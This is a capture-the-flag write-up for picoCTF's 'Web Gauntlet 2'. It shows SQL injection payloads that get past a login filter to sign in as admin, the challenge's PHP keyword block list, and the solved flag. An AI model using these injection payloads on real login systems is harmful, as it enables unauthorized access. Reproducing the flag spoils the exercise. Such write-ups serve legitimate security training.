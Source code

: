 # Web Gauntlet 2

## Category - Web Exploitation
## Author - MADSTACKS

### Description: 
This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:26215/ Filter: http://mercury.picoctf.net:26215/filter.php

### Solution:
The challenge gives us a link which opens a webpage allowing us to login with a username and password that we can deduce are vulnerable to SQL injections. Looking at the filter 
link we can see what we must avoid when crafting our SQL injection. 

We know that the username field must be "admin" but unfortunately this is filtered. To bypass this we can simply use the "||" joiner with a final value for the username field of "ad'||'min".

For the password field we must simply provide something that returns true. The most common one used is "' OR '1'='1" but OR is filtered as seen in the filter.php file. Instead we can
craft a true statement using IS or IS NOT such as "a' IS NOT 'b" which is also true but does not use anything in the filter.php file.

Final values for login:
```
username: ad'||'min
password: a' IS NOT 'b
```
Using these to login we get the message "Congrats! You won! Check out filter.php". Finally reloading the http://mercury.picoctf.net:26215/filter.php page gives us this source code
with the flag:
```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_fc0f841ee8e0d3e1f479f1a01a617ebb}
?>
```

Note: If you successfuly ran the SQL injection but still see nothing in the filter.php file try clearing cache and then reloading or using a different browser to get the source code with flag.

### Flag:
```
picoCTF{0n3_m0r3_t1m3_fc0f841ee8e0d3e1f479f1a01a617ebb}
```
